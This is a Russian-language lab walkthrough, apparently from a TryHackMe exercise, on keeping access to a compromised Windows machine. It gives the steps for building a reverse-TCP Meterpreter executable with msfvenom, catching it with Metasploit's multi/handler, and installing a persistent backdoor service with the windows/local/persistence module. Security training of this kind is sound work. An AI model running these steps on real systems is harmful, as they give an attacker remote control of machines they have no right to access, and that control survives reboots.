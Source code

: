 ## Задание 7
Существует довольно много способов сохранения доступа к машине или сети. Мы рассмотрим довольно простой способ 
сохранения доступа: сначала настроим оболочку meterpreter, а затем воспользуемся модулем persistence metasploit, 
который позволит нам создать в системе бэкдор-сервис, который предоставит нам мгновенную оболочку meterpreter, если 
машина будет выключена или перезагружена.   

Существуют и другие способы сохранения доступа, такие как продвинутые бэкдоры и руткиты, однако они выходят за рамки 
этой темы. 

Это потребует немного больше ручной настройки, чем другие задачи, поэтому рекомендуется иметь предварительные знания 
о msfvenom и metasploit. 

Создание полезной нагрузки с помощью msfvenom﻿

1.) msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe  это создаст базовую оболочку 
Windows Meterpreter для обратного TCP 



2.) Перенесите полезную нагрузку с машины атакующего на целевую машину.

3.) use exploit/multi/handler - это создаст прослушиватель на порту, на который вы его настроили.

4.) Настройте нашу полезную нагрузку так, чтобы она представляла собой оболочку Windows Meterpreter: 
`set payload windows/meterpreter/reverse_tcp`

5.) После установки вашего IP-адреса THM в качестве «LHOST» запустите прослушиватель с помощьюrun

6.) Запуск двоичного файла на машине Windows вернет вам оболочку meterpreter на вашем хосте — вернемся к этому.

7.) Убедитесь, что у нас есть оболочка meterpreter, в которой мы затем background запустим модуль сохранения.

Запустите модуль сохранения -

1.) use exploit/windows/local/persistence По умолчанию этот модуль будет отправлять полезную нагрузку каждые 10 
секунд, однако вы можете установить любое желаемое время. 

2.) set session 1 установите сеанс на тот сеанс, который мы перевели в фоновый режим в meterpreter (вы можете 
использовать sessions команду в metasploit для получения списка активных сеансов)



Если система по какой-либо причине будет выключена или перезагружена, вы потеряете сеанс meterpreter. Однако с 
помощью модуля сохранения вы создаете бэкдор в системе, к которому можете получить доступ в любое время с помощью 
многофункционального обработчика metasploit и настройки полезной нагрузки, windows/meterpreter/reverse_tcp 
позволяющей вам отправлять на машину еще одну полезную нагрузку meterpreter и открывать новый сеанс meterpreter.   
